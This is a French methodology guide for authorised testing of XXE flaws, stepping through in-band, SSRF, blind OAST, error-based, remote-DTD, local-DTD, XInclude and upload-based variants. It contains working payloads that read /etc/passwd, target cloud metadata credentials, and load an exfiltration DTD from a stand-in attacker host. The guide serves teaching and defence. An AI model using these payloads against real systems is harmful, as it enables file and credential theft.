

# XXE — Méthodologie d'exploitation

!!! warning "Cadre légal"
    À utiliser exclusivement en laboratoire, CTF, ou test d'intrusion couvert par une autorisation écrite.

## 1. Objectif et périmètre de la méthodologie

L'objectif de cette fiche est de démontrer qu'un parseur XML traitant un document influençable par l'attaquant résout des entités externes (ou une instruction XInclude), permettant de lire des fichiers locaux ou de forcer le serveur à effectuer une requête réseau arbitraire, puis d'évaluer la capacité réelle à en extraire le résultat.

Le comportement de sécurité à démontrer : le parseur XML interprète une déclaration `<!ENTITY ... SYSTEM "...">` (ou une inclusion `XInclude`) comme une instruction légitime de chargement de ressource, alors que cette déclaration est entièrement ou partiellement contrôlée par l'attaquant.

**Variantes couvertes par cette fiche**, qui se distinguent principalement selon deux axes orthogonaux — la visibilité du résultat (classique vs Blind) et le mécanisme de contrôle du document (`DOCTYPE` complet vs fragment seul via XInclude) — et nécessitent chacune des techniques et des preuves distinctes :

- **XXE classique (in-band)** : la valeur de l'entité résolue est réutilisée directement dans la réponse.
- **XXE exploitée en SSRF**, avec retour visible ou aveugle, selon que la réponse du système interne ciblé est réintégrée ou non.
- **Blind XXE par interactions hors bande (OAST)**, y compris via entités paramètre pour contourner un filtrage des entités classiques.
- **Blind XXE par messages d'erreur**, indépendante de toute connexion sortante.
- **Exfiltration via DTD malveillant hébergé à distance**, combinant plusieurs entités paramètre pour transmettre le contenu d'un fichier par le réseau.
- **Réutilisation d'un DTD local**, pour les contextes sans connexion sortante ni message d'erreur exploitable par défaut.
- **XXE via XInclude**, lorsque seul un fragment du document est contrôlable (pas de `DOCTYPE` possible).
- **Surfaces cachées** : upload de fichiers embarquant du XML (SVG, DOCX), et modification du `Content-Type` pour révéler un parseur XML non documenté.

**Non couvert par cette fiche** (absent du cours source, à traiter séparément si pertinent) : l'exploitation complète d'un SSRF confirmé via XXE au-delà de la détection de la requête forcée — le cours renvoie implicitement à une méthodologie SSRF dédiée pour l'exploitation du service interne effectivement atteint ; les techniques précises de déni de service par expansion exponentielle d'entités (« Billion Laughs »), mentionnées comme impact possible sans construction de payload détaillée ; les options de configuration précises de désactivation des entités externes pour chaque bibliothèque XML, le cours renvoyant explicitement à la documentation de la bibliothèque réellement utilisée.

### Principe de raisonnement

Le cours distingue explicitement trois niveaux de preuve à ne jamais confondre : **déclencher le comportement vulnérable** (obtenir que le parseur tente de résoudre une entité externe, confirmable par une simple interaction OAST sans lecture de donnée), **démontrer la vulnérabilité** (obtenir une preuve exploitable que la résolution a eu lieu), et **atteindre un impact de sécurité précis** (exfiltrer effectivement un contenu, ce qui suppose en plus un canal de sortie fonctionnel et un contenu compatible avec ce canal). La démarche part toujours d'abord de la question du contrôle du document (`DOCTYPE` complet possible, ou fragment seul via XInclude), puis de la visibilité du résultat (réponse directe, ou Blind nécessitant OAST/erreurs/DTD local), ces deux axes conditionnant quelle famille de techniques est pertinente, indépendamment l'une de l'autre.

---

## 2. Conditions préalables et état de référence

### 2.1. Prérequis techniques

**Indispensables :**

- Le parseur XML cible autorise la résolution d'entités externes (condition de configuration, à confirmer par le test lui-même, jamais à présumer).
- L'attaquant peut influencer tout ou partie du document XML traité, directement (corps de requête) ou indirectement (fichier XML embarqué comme SVG/DOCX).

**Fréquents mais non systématiques :**

- L'application accepte XML explicitement comme format documenté — fréquent, mais une surface cachée (modification du `Content-Type` sur un endpoint acceptant plusieurs formats, section 4 étape 8) reste un vecteur distinct à tester systématiquement.
- La valeur de l'entité résolue est réutilisée dans la réponse — condition nécessaire pour une XXE visible, non nécessaire pour une Blind XXE qui suit une démarche distincte.
- Une connexion sortante libre vers un hôte contrôlé par l'attaquant — facilite fortement la détection et l'exfiltration via OAST, mais le cours souligne explicitement que ce n'est pas une condition obligatoire pour toute exploitation (la variante DTD local, étape 6, s'en passe).

**À vérifier sur la cible, non supposés à l'avance :**

- Si le serveur peut effectivement atteindre la ressource ciblée (fichier local lisible par le processus du parseur, ou URL réseau accessible) — condition obligatoire pour obtenir un résultat, mais indépendante du défaut de configuration lui-même.
- Si un canal d'exfiltration ou d'observation est disponible (réponse visible, message d'erreur affiché, interaction réseau détectable), qui détermine entièrement la famille de techniques à appliquer.
- Si le point d'entrée permet d'injecter un `DOCTYPE` complet (document entièrement contrôlé) ou seulement un fragment (nécessitant XInclude, étape 7).

### 2.2. Établir le comportement normal

Avant tout test, observer le fonctionnement légitime du point d'entrée suspecté :

- **Requête XML de référence** sans `DOCTYPE`, avec des valeurs de données simples : code de réponse, contenu retourné.
- **Comportement sur une valeur invalide anodine** (ex. un identifiant inexistant) : message d'erreur, code HTTP — utile pour distinguer plus tard une erreur spécifiquement provoquée par une entité mal résolue d'une erreur générique.
- **Réflexion des valeurs XML dans la réponse** : identifier précisément quels nœuds XML envoyés sont répercutés dans la réponse, car chaque valeur réutilisée constitue une surface potentielle distincte — la présence d'une XXE ne se limite pas au premier nœud testé.
- **Format exact accepté par le point d'entrée** : `Content-Type` attendu, structure XML précise (balise racine, espaces de noms éventuels), nécessaire pour construire un document syntaxiquement valide avant d'y injecter un `DOCTYPE`.

Cette référence est nécessaire pour distinguer un comportement normal d'un comportement spécifiquement provoqué par la résolution d'une entité, et pour savoir dès le départ laquelle des valeurs XML réutilisées par l'application offre le canal de retour le plus direct.

---

## 3. Reconnaissance : où rechercher la vulnérabilité ?

### 3.1. Surfaces de test

| Élément à examiner | Pourquoi cette surface est pertinente | Contrôle disponible | Observation initiale | Hypothèse de vulnérabilité | Premier test |
|---|---|---|---|---|---|
| Endpoint acceptant explicitement un corps XML (`Content-Type: application/xml`/`text/xml`) | Point d'entrée direct où l'attaquant contrôle l'intégralité du document, y compris un `DOCTYPE` | Corps complet de la requête | Réponse pour un document XML légitime sans `DOCTYPE` | Le parseur résout les entités externes si un `DOCTYPE` est injecté | Injecter un `DOCTYPE` avec une entité `SYSTEM` pointant vers un fichier local connu et observer la réponse |
| Chaque valeur de nœud XML individuellement réutilisée dans la réponse | Une requête XML contient souvent plusieurs champs ; chaque valeur réutilisée est une surface distincte | Nœud XML ciblé pour la référence d'entité | Comportement de réflexion pour une valeur légitime sur ce nœud précis | Ce nœud précis réutilise la valeur résolue de l'entité, offrant un canal de retour direct | Référencer l'entité externe sur ce nœud précis et vérifier si son contenu apparaît dans la réponse |
| Endpoint acceptant un upload de fichier SVG, DOCX, ou autre format bureautique basé sur XML | Le fichier embarque lui-même du XML traité côté serveur, sans requête XML explicite visible | Contenu XML interne au fichier uploadé | Comportement de traitement d'un fichier légitime | Le parseur utilisé pour ce format spécifique partage la même configuration permissive que le parseur XML principal, ou a sa propre configuration tout aussi permissive | Insérer un `DOCTYPE` avec entité externe dans la structure XML interne du fichier et observer le traitement côté serveur |
| Endpoint n'exposant aucune fonctionnalité XML visible, utilisant normalement des formulaires encodés différemment | Surface cachée : l'endpoint peut accepter XML sans que cela soit documenté, simplement en modifiant le `Content-Type` | En-tête `Content-Type` de la requête | Comportement normal avec le format attendu (JSON, formulaire) | L'endpoint traite également un corps XML si le `Content-Type` est modifié en conséquence | Soumettre un document XML minimal avec `Content-Type: application/xml` sur un endpoint habituellement non-XML et observer si le format est accepté |
| Point d'entrée où seul un fragment du document est contrôlable (pas d'accès à l'en-tête du document pour un `DOCTYPE`) | Un `DOCTYPE` doit apparaître en tête du document ; un contrôle partiel seul empêche cette injection classique mais pas forcément XInclude | Fragment de nœud contrôlé | Comportement du fragment pour une valeur légitime | L'espace de noms XInclude peut être inséré dans le fragment contrôlé pour inclure une ressource externe sans déclaration DTD | Injecter une déclaration `xi:include` dans le fragment contrôlé et observer si son contenu est inclus |

Aucune de ces surfaces n'est nécessairement vulnérable : chacune correspond à un point où le parseur XML traite une entrée influencée par l'attaquant, ce qui justifie leur examen systématique, y compris les surfaces cachées (upload de documents, `Content-Type` modifié) souvent absentes d'un audit limité aux endpoints XML explicitement documentés.

### 3.2. Indices et faux positifs

**Observations qui peuvent suggérer la vulnérabilité :**

- Le contenu d'un fichier local connu (ex. `root:` pour `/etc/passwd`) apparaît dans la réponse après injection d'une entité `SYSTEM file://`.
- Une requête contenant un `DOCTYPE` avec entité externe provoque un délai ou une interaction réseau observée (OAST) sur un domaine de callback contrôlé.
- Un message d'erreur révèle des détails sur le traitement XML (chemin de fichier, trace de parsing) après injection d'une entité.
- L'application accepte un `Content-Type: text/xml`/`application/xml` sur un endpoint qui semblait utiliser des formulaires classiques.

**Observations qui ne suffisent pas à confirmer la vulnérabilité :**

- L'acceptation d'un `Content-Type` XML sur un endpoint inattendu : ne prouve pas que le parseur utilisé résout les entités externes, ni même qu'un `DOCTYPE` y est traité — l'application peut accepter XML sans jamais le soumettre à un traitement de DTD.
- Une valeur XML envoyée répercutée telle quelle dans la réponse : peut être un simple echo de donnée sans lien avec une résolution réelle par le parseur — ne confirme pas qu'une entité déclarée serait effectivement résolue plutôt qu'ignorée.
- Un délai ou une anomalie isolée sur une requête contenant un `DOCTYPE` : peut avoir d'autres causes (charge serveur, traitement non lié au XML) — à confirmer par une interaction OAST explicite plutôt que par un simple délai.
- Un message d'erreur générique après injection : peut provenir d'une autre couche applicative sans lien avec le traitement des entités.

**Comportements normaux susceptibles d'être confondus avec la faille :**

- Un rejet du document avec `DOCTYPE` (erreur de validation) pouvant imiter un blocage de sécurité alors qu'il s'agit simplement d'une validation de schéma XML sans rapport avec la résolution d'entités.
- Un parseur distinct utilisé pour un format spécifique (ex. bibliothèque de traitement d'images SVG séparée du parseur XML principal) pouvant être sécurisé indépendamment de la configuration du parseur principal, même si celui-ci est vulnérable.

**Vérifications complémentaires nécessaires :**

- Toujours confirmer qu'une entité déclarée est réellement résolue par le parseur, et non simplement ignorée, avant de conclure à partir d'une simple réflexion de valeur.
- Avant de conclure à l'absence de XXE sur la base de l'échec d'une seule variante (classique visible), tester systématiquement les variantes Blind (OAST, erreurs, DTD local), ces mécanismes étant indépendants.

---

## 4. Séquence de tests : démarche pas à pas

### Étape 1 — Détection de la résolution d'entité externe (classique, in-band)

**Objectif**

Vérifier que le parseur résout une entité externe déclarée via `DOCTYPE` et réutilise sa valeur dans la réponse.

**Prérequis**

Un endpoint acceptant un corps XML complet, ou une surface capable de recevoir un `DOCTYPE` (section 3.1).

**Hypothèse**

Le parseur est configuré pour résoudre les entités externes, et au moins une valeur XML réutilisée dans la réponse peut servir de canal de retour direct.

**Action à effectuer**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

Si plusieurs nœuds sont réutilisés dans la réponse, tester systématiquement la référence `&xxe;` sur chacun d'eux, pas uniquement le premier champ testé.

**Observations à examiner**

Contenu de la réponse, comparé à la référence (valeur `productId` légitime).

**Résultat positif**

Le contenu du fichier ciblé (motif `root:x:0:0:` par exemple) apparaît dans la réponse à la place de la valeur attendue : XXE classique confirmée avec retour visible.

**Résultat négatif ou ambigu**

- Erreur de parsing générique, document rejeté : le `DOCTYPE` peut être explicitement filtré, ou la syntaxe XML construite est invalide — vérifier la validité syntaxique avant de conclure à un filtrage.
- Document accepté, réponse normale sans trace de l'entité : soit le nœud testé n'est pas réutilisé dans la réponse (tester un autre nœud), soit le parseur ne résout pas l'entité (passer aux variantes Blind, étapes 3 à 6).
- Erreur spécifique mentionnant le fichier ou un chemin : signal à approfondir via la technique de message d'erreur (étape 4), le parseur ayant visiblement tenté la résolution sans la réussir complètement.

**Interprétation**

L'absence de résultat sur un nœud donné ne prouve pas l'absence de XXE : chaque valeur XML réutilisée par l'application constitue une surface potentielle distincte, à tester individuellement avant de conclure à l'échec de cette variante.

**Étape suivante**

Si positif → étape 2 (extension en SSRF) ou documenter l'impact directement (section 8) si la lecture de fichier suffit. Si négatif sur tous les nœuds testés → étape 3 (Blind XXE par OAST), en gardant à l'esprit que l'absence de retour visible n'indique pas l'absence de résolution.

**Erreurs fréquentes**

Ne tester l'injection d'entité que sur le premier nœud XML rencontré sans l'étendre aux autres valeurs réutilisées par l'application.

---

### Étape 2 — Extension en SSRF (retour visible ou aveugle)

**Objectif**

Vérifier si une entité externe pointant vers une URL interne permet d'atteindre un système normalement inaccessible depuis l'extérieur.

**Prérequis**

Résolution d'entité externe confirmée (étape 1), ou à tester en parallèle dès l'étape 1 si une cible interne est déjà identifiée par ailleurs dans l'audit.

**Hypothèse**

Le parseur effectue la requête réseau pour le compte du serveur, ce qui peut permettre d'atteindre un service interne non exposé publiquement.

**Action à effectuer**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<root>&xxe;</root>
```

Adapter l'URL ciblée à l'infrastructure interne suspectée (plages privées, services de métadonnées cloud, ports internes connus).

**Observations à examiner**

Contenu de la réponse réintégrant potentiellement le résultat de la requête interne, ou absence totale de restitution malgré une requête probablement émise.

**Résultat positif**

*Retour visible* : le contenu de la ressource interne apparaît dans la réponse — SSRF via XXE confirmée avec résultat lisible.

*Retour aveugle* : aucun contenu visible, mais une preuve indirecte existe (logs du système ciblé si accessibles, ou délai de traitement observable cohérent avec une tentative de connexion) — SSRF aveugle suspectée, à confirmer par OAST (étape 3) en ciblant d'abord un domaine de callback plutôt que directement le service interne.

**Résultat négatif ou ambigu**

Aucune différence observée, aucun indice de requête sortante : la résolution d'entité peut être limitée aux fichiers locaux (`file://`) sans extension vers les URL réseau selon la configuration du parseur, ou le réseau interne n'est pas atteignable depuis ce serveur — tester d'abord un domaine de callback contrôlé (étape 3) avant de conclure sur une cible interne spécifique.

**Interprétation**

La possibilité d'atteindre réellement une cible interne dépend de la position réseau du serveur vulnérable, une condition indépendante du défaut de configuration du parseur lui-même : un échec sur une cible interne précise ne remet pas en cause la résolution d'entité confirmée par ailleurs.

**Étape suivante**

Si positif avec retour visible → documenter l'impact (section 8), en orientant si pertinent vers une méthodologie SSRF dédiée pour l'exploitation du service interne atteint. Si retour aveugle suspecté → étape 3 (OAST). Si négatif → étape 3 directement, un domaine de callback contrôlé étant un test plus fiable qu'une cible interne devinée.

**Erreurs fréquentes**

Cibler directement un service interne supposé sans d'abord confirmer la capacité de résolution d'URL par un test OAST vers un domaine contrôlé, rendant l'interprétation d'un échec ambiguë (cible inatteignable vs capacité de résolution d'URL absente).

---

### Étape 3 — Blind XXE par interactions hors bande (OAST)

**Objectif**

Confirmer la résolution d'une entité externe sans dépendre d'aucune réponse visible, en observant une interaction réseau reçue sur une infrastructure contrôlée par le testeur.

**Prérequis**

Les étapes 1 et 2 n'ont produit aucun résultat visible, ou ce test est mené en parallèle pour une confirmation indépendante. Une connexion sortante du serveur vers un hôte externe est supposée possible (à vérifier par le test lui-même).

**Hypothèse**

Le parseur tente bien de résoudre l'entité pointant vers un domaine de callback, de façon vérifiable par une interaction DNS et/ou HTTP, même si aucune donnée n'est jamais lue.

**Action à effectuer**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://unique-id.oast-server.com/">
]>
<root>&xxe;</root>
```

Si cette forme échoue alors qu'un filtrage des entités classiques est suspecté (comportement différent entre une injection simple et un document sans `DOCTYPE`), tester une entité paramètre, qui peut contourner certains filtres ne traitant pas les deux syntaxes de la même manière :

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://unique-id.oast-server.com/">
  %xxe;
]>
```

**Observations à examiner**

Interactions reçues sur l'interface du service d'écoute (DNS seule, ou DNS suivie d'une requête HTTP complète), et leur adresse IP source.

**Résultat positif**

Une interaction DNS et/ou HTTP est reçue depuis l'adresse IP du serveur cible : confirme la résolution de l'entité externe par le parseur, indépendamment de toute visibilité dans la réponse HTTP.

**Résultat négatif ou ambigu**

- Aucune interaction avec l'entité classique, mais une interaction est reçue avec l'entité paramètre : confirme un filtrage spécifique des entités classiques, contournable via la syntaxe paramètre — documenter cette distinction précisément.
- Aucune interaction avec aucune des deux formes : soit aucune connexion sortante n'est possible depuis ce serveur, soit le `DOCTYPE` est totalement bloqué avant d'atteindre le parseur — passer à l'étape 4 (messages d'erreur), qui ne dépend pas d'une connexion sortante.

**Interprétation**

Une confirmation par entité paramètre après l'échec de l'entité classique est un indice fort d'un filtrage actif ciblant spécifiquement la syntaxe classique, information réutilisable pour adapter les techniques suivantes (étapes 5 et 6, qui reposent elles-mêmes sur les entités paramètre).

**Étape suivante**

Si positif → étape 5 (exfiltration via DTD distant) si une connexion sortante est confirmée possible. Si négatif → étape 4 (messages d'erreur), indépendante de toute connexion sortante.

**Erreurs fréquentes**

Ne tester que la syntaxe d'entité classique sans tenter l'entité paramètre en cas d'échec, alors que ces deux syntaxes peuvent être filtrées différemment.

---

### Étape 4 — Blind XXE par messages d'erreur

**Objectif**

Exfiltrer le contenu d'un fichier via un message d'erreur du parseur, sans dépendre d'aucune connexion sortante.

**Prérequis**

Les messages d'erreur du parseur sont exposés au client (vérifié par le comportement de référence, section 2.2, sur une entrée invalide anodine). Pertinent en particulier si l'étape 3 a échoué (aucune connexion sortante disponible).

**Hypothèse**

En tentant de charger un chemin de fichier inexistant construit dynamiquement à partir du contenu du fichier ciblé, le message d'erreur résultant contient tout ou partie de ce contenu.

**Action à effectuer**

Construire dynamiquement, via des entités paramètre combinées, une tentative de chargement d'un chemin invalide intégrant le contenu du fichier recherché (la construction précise dépend du parseur et nécessite généralement un DTD intermédiaire combinant plusieurs entités paramètre, selon le même principe que l'étape 5 mais restituant via l'erreur plutôt que via le réseau).

**Observations à examiner**

Contenu exact du message d'erreur retourné par le serveur.

**Résultat positif**

Le message d'erreur contient tout ou partie du contenu du fichier ciblé : exfiltration confirmée via ce canal, indépendamment de toute connexion sortante.

**Résultat négatif ou ambigu**

- Message d'erreur générique sans détail technique : l'application masque probablement les erreurs de parsing au client (configuration de production) — cette technique devient inapplicable, passer à l'étape 6 (DTD local) si une connexion sortante est également indisponible.
- Erreur obtenue mais ne contenant pas le contenu attendu : la construction dynamique de l'entité peut être incorrecte pour ce parseur précis — vérifier la syntaxe exacte attendue par le moteur XML identifié (différences entre implémentations).

**Interprétation**

Cette technique ne nécessite aucune connexion sortante, contrairement à l'OAST et au DTD distant (étapes 3 et 5) ; elle nécessite en revanche que les messages d'erreur du parseur soient visibles, condition indépendante de la précédente — les deux sous-variantes de Blind XXE (étapes 3 et 4) ne sont donc jamais interchangeables et doivent être évaluées selon leurs conditions respectives propres.

**Étape suivante**

Si positif → documenter l'impact (section 8), en notant les limites du canal (taille de message d'erreur, caractères compatibles). Si négatif → étape 5 (DTD distant) si une connexion sortante est disponible, ou étape 6 (DTD local) sinon.

**Erreurs fréquentes**

Conclure à l'absence de toute variante Blind après le seul échec de cette technique, sans tester l'OAST (étape 3) ou le DTD local (étape 6), qui reposent sur des conditions différentes.

---

### Étape 5 — Exfiltration via DTD malveillant hébergé à distance

**Objectif**

Exfiltrer le contenu complet d'un fichier via le réseau, lorsque le canal d'erreur n'est pas disponible mais qu'une connexion sortante l'est.

**Prérequis**

Connexion sortante confirmée possible (étape 3 positive). Messages d'erreur non exploitables (étape 4 négative), ou cette voie privilégiée directement pour une exfiltration complète plutôt que fragmentaire.

**Hypothèse**

Un DTD hébergé sur un serveur contrôlé par l'attaquant, combinant plusieurs entités paramètre (une qui lit le fichier ciblé, une qui construit dynamiquement une nouvelle déclaration intégrant cette valeur dans une URL, une qui déclenche la requête d'exfiltration), peut être chargé par le parseur et transmettre le contenu du fichier via une requête réseau.

**Action à effectuer**

Héberger un DTD malveillant combinant ces trois entités paramètre sur un serveur contrôlé, puis le référencer depuis le document cible :

```xml
<!DOCTYPE foo SYSTEM "http://attaquant.com/malicious.dtd">
```

Privilégier des fichiers cibles simples sur une seule ligne (ex. `/etc/hostname`), les caractères spéciaux et retours à la ligne dans le contenu pouvant empêcher sa transmission correcte dans une URL.

**Observations à examiner**

Requête HTTP reçue sur le serveur du testeur, contenant le contenu du fichier concaténé dans l'URL interrogée.

**Résultat positif**

Le contenu du fichier ciblé apparaît dans l'URL de la requête reçue sur le serveur du testeur : exfiltration confirmée par ce canal.

**Résultat négatif ou ambigu**

- Le DTD distant n'est jamais chargé (aucune requête initiale reçue) : la résolution d'entité externe à distance peut être limitée, ou un filtrage réseau sortant bloque spécifiquement cette requête — revérifier la confirmation OAST de base (étape 3) sur ce point précis d'injection.
- Le DTD est chargé, mais la requête d'exfiltration finale échoue ou arrive tronquée : le fichier ciblé contient probablement des caractères spéciaux ou des retours à la ligne incompatibles avec une transmission par URL — retester avec un fichier plus simple sur une seule ligne avant de conclure à un échec de la technique elle-même.

**Interprétation**

Un échec sur un fichier multi-lignes complexe ne remet pas en cause la technique elle-même, qui reste une limite technique connue et documentée (caractères spéciaux incompatibles avec le canal URL), à distinguer d'un échec de principe de la méthode.

**Étape suivante**

Si positif → documenter l'impact (section 8). Si négatif → étape 6 (DTD local) si une connexion sortante s'avère finalement non fiable sur ce point précis.

**Erreurs fréquentes**

Tenter l'exfiltration directe d'un fichier multi-lignes complexe (ex. un fichier de configuration structuré) sans d'abord valider la technique sur un fichier simple à une ligne.

---

### Étape 6 — Réutilisation d'un DTD local

**Objectif**

Exploiter une Blind XXE lorsque les connexions externes sont bloquées et que les messages d'erreur ne révèlent rien par défaut, en s'appuyant sur un fichier DTD déjà présent sur le système cible.

**Prérequis**

Les étapes 3, 4 et 5 ont toutes échoué (ni OAST, ni messages d'erreur, ni DTD distant). Un DTD compatible doit exister sur le système ciblé (fourni avec un paquet logiciel installé, par exemple) — condition dépendant fortement de l'environnement, non garantie.

**Hypothèse**

Un DTD hybride (interne + externe, référençant un DTD local existant sur le système) autorise certaines redéfinitions d'entités paramètre qu'une DTD purement interne interdirait, permettant de réintroduire la technique de message d'erreur (étape 4) sans dépendre d'une ressource externe.

**Action à effectuer**

Identifier un DTD présent sur le système cible (chemin connu selon l'environnement supposé, ex. DTD fourni par une distribution Linux ou un framework spécifique), puis construire un DTD hybride redéfinissant une entité existante de ce DTD local pour y injecter la technique d'erreur.

**Observations à examiner**

Message d'erreur résultant, comparé au contenu recherché.

**Résultat positif**

Le message d'erreur contient le contenu du fichier ciblé, obtenu sans dépendre d'une ressource externe ni d'une connexion sortante : Blind XXE confirmée via cette technique de dernier recours.

**Résultat négatif ou ambigu**

Aucun DTD compatible identifié sur le système, ou la redéfinition échoue pour ce parseur précis : cette technique dépend fortement de l'existence d'un DTD compatible et du comportement précis du parseur utilisé, deux facteurs hors du contrôle de l'attaquant — documenter l'absence de ce vecteur comme une limite de contexte plutôt qu'un échec de méthode.

**Interprétation**

Cette technique est la plus dépendante du contexte parmi toutes les variantes Blind : son échec est l'issue la plus fréquente en pratique et ne doit pas être interprété comme un signe d'absence de vulnérabilité sous-jacente, les trois techniques précédentes (OAST, erreur directe, DTD distant) restant les voies principales.

**Étape suivante**

Si positif → documenter l'impact (section 8). Si négatif → documenter l'ensemble des quatre approches Blind (étapes 3 à 6) comme testées, conclure que l'impact ne peut être démontré sans accès réseau sortant ni DTD local compatible sur cette cible, tout en gardant la résolution d'entité elle-même potentiellement confirmée (étape 3 positive même sans exfiltration).

**Erreurs fréquentes**

Chercher cette technique en priorité avant d'avoir épuisé les options plus directes (OAST, erreur simple, DTD distant), alors qu'elle est la plus contrainte par le contexte et la moins généralisable.

---

### Étape 7 — XXE via XInclude (contrôle partiel du document)

**Objectif**

Exploiter un point d'entrée où seul un fragment du document est contrôlable, empêchant l'injection d'un `DOCTYPE` en tête de document.

**Prérequis**

Le point d'entrée ne permet pas de contrôler l'intégralité du document XML (pas d'accès à l'en-tête pour y placer un `DOCTYPE`), mais un fragment de nœud reste sous contrôle de l'attaquant.

**Hypothèse**

L'espace de noms XInclude, indépendant de toute déclaration DTD, peut être inséré dans le fragment contrôlé pour inclure le contenu d'une ressource externe directement dans ce nœud.

**Action à effectuer**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

Adapter la construction pour qu'elle s'insère syntaxiquement dans le fragment précis sous contrôle, sans nécessiter de modification de l'en-tête du document.

**Observations à examiner**

Contenu de la réponse à l'emplacement du fragment, comparé à la référence.

**Résultat positif**

Le contenu de la ressource ciblée apparaît inclus dans le nœud, sans qu'aucun `DOCTYPE` n'ait été nécessaire : XXE via XInclude confirmée.

**Résultat négatif ou ambigu**

Aucun contenu inclus, fragment traité comme texte littéral ou rejeté : XInclude n'est probablement pas activé par le parseur (fonctionnalité distincte de la résolution d'entités, devant être explicitement prise en charge) — documenter cette variante comme non applicable sur cette cible, indépendamment du résultat obtenu sur les entités classiques.

**Interprétation**

Cette variante ne dépend pas de la résolution d'entités mais d'une fonctionnalité distincte (XInclude) : la désactivation de la résolution d'entités externes seule ne neutralise jamais ce vecteur, et son échec ou son succès est totalement indépendant des résultats obtenus aux étapes 1 à 6.

**Étape suivante**

Si positif → documenter l'impact (section 8), cette variante pouvant elle-même être étendue vers du SSRF ou une Blind XInclude selon les mêmes principes que les sections précédentes. Si négatif → se concentrer sur les points d'entrée offrant un contrôle complet du document (étapes 1 à 6) pour cette application.

**Erreurs fréquentes**

Tenter d'injecter un `DOCTYPE` sur un point d'entrée où seul un fragment est contrôlé, alors que la position en tête de document requise pour un `DOCTYPE` rend cette tentative structurellement vouée à l'échec — passer directement à XInclude dans ce contexte précis.

---

### Étape 8 — Surfaces cachées : upload de documents et modification du `Content-Type`

**Objectif**

Identifier un parseur XML vulnérable atteint sans requête XML explicite, via un fichier d'apparence anodine ou un changement de format non documenté.

**Prérequis**

Une fonctionnalité d'upload de fichiers (SVG, DOCX, autre format bureautique basé sur XML) traitée côté serveur, ou un endpoint utilisant normalement un autre format (JSON, formulaire) sans fonctionnalité XML visible.

**Hypothèse**

*Upload* : le parseur traitant ce format spécifique (éventuellement une bibliothèque distincte du parseur XML principal) partage une configuration tout aussi permissive.

*Content-Type* : l'endpoint accepte plusieurs formats sans que cela soit documenté ou visible côté client, simplement en modifiant l'en-tête `Content-Type`.

**Action à effectuer**

*Upload* : insérer un `DOCTYPE` avec entité externe directement dans la structure XML interne du fichier (ex. dans `document.xml` au sein de l'archive ZIP d'un DOCX, ou dans la déclaration racine d'un SVG), puis soumettre ce fichier via la fonctionnalité d'upload normale.

*Content-Type* :

```http
POST /endpoint HTTP/1.1
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://unique-id.oast-server.com/"> ]>
<root>&xxe;</root>
```

sur un endpoint habituellement sollicité avec un `Content-Type` différent (JSON, formulaire).

**Observations à examiner**

*Upload* : comportement du traitement côté serveur (génération de miniature, extraction de texte, conversion), traces d'une tentative de résolution (OAST, erreur, contenu retourné).

*Content-Type* : acceptation ou rejet du document XML sur l'endpoint testé, comparé au comportement avec le format habituel.

**Résultat positif**

*Upload* : une interaction OAST est reçue, ou le contenu d'un fichier local apparaît dans un traitement ultérieur (aperçu, extraction) du document uploadé — confirme que le parseur traitant ce format spécifique est également vulnérable.

*Content-Type* : le document XML est traité sans rejet (code 200 ou comportement cohérent avec un traitement XML plutôt qu'une erreur de format), révélant une surface XML non documentée — poursuivre alors avec les étapes 1 à 7 sur ce point d'entrée nouvellement découvert.

**Résultat négatif ou ambigu**

*Upload* : aucune trace de résolution — le parseur spécifique à ce format peut être distinct et sécurisé indépendamment du parseur XML principal, même si celui-ci est vulnérable par ailleurs.

*Content-Type* : rejet explicite du format XML sur cet endpoint — l'endpoint n'accepte réellement que le format documenté, cette surface cachée n'existe pas ici.

**Interprétation**

Un parseur sécurisé pour un usage (ex. l'endpoint XML principal correctement configuré) n'est jamais automatiquement sécurisé pour un autre composant de l'application traitant du XML séparément (une bibliothèque de traitement SVG distincte, par exemple) : ces deux surfaces doivent être testées indépendamment, un résultat négatif sur l'une ne garantissant rien sur l'autre.

**Étape suivante**

Si positif sur l'une ou l'autre surface → reprendre les étapes pertinentes (1 à 7) adaptées à ce nouveau point d'entrée. Si négatif → documenter ces vecteurs comme testés et non exploitables sur cette application.

**Erreurs fréquentes**

Limiter l'audit XXE aux seuls endpoints XML explicitement documentés, en omettant les fonctionnalités d'upload de documents structurés et les endpoints acceptant potentiellement plusieurs formats.

---

## 5. Arbre de décision : que faire selon le résultat ?



---

## 6. Construire la chaîne d'exploitation

1. **Point d'entrée** : document XML (ou fragment, ou fichier embarquant du XML) influençable par l'attaquant, identifié en section 3.1.
